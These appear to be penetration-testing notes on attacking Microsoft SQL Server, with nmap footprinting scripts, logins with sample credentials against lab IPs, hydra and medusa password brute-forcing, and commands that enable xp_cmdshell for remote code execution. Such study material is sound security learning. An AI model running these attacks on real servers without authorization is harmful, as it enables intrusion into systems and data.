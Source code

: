# MSSQL

## Service Info
### port used
- Port  1433/TCP
### Dangerous Settings
- MSSQL clients not using encryption to connect to the MSSQL server
- The use of self-signed certificates when encryption is being used. It is possible to spoof self-signed certificates
- The use of named pipes
- Weak & default sa credentials. Admins may forget to disable this account
### Footprinting the Service
- nmap
```bash
$ sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 10.129.201.248
```
- mssql_ping  metaspolit
### Service Interaction
```
mssqlclient.py manager/operator:operator@10.129.232.229 -windows-auth
mssqlclient.py manager/operator:operator@10.129.232.229   
```

## Attacks
- check [PowerUpSQL-Cheat-Sheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet)

### Brutetforce
```bash
# hydra
hydra -l username -P /path/to/password-list.txt mssql://target-ip
hydra -L /path/to/usernames.txt -P /path/to/password-list.txt mssql://192.168.1.10

# medusa
medusa -h target-ip -u username -P /path/to/password-list.txt -M mssql
medusa -h 192.168.1.10 -U /path/to/usernames.txt -P /path/to/password-list.txt -M mssql
```

### RCE 
```shell
xp_cmdshell whoami

# enable xp_cmdshell
EXECUTE sp_configure 'show advanced options', 1
RECONFIGURE
EXECUTE sp_configure 'xp_cmdshell', 1
RECONFIGURE
```

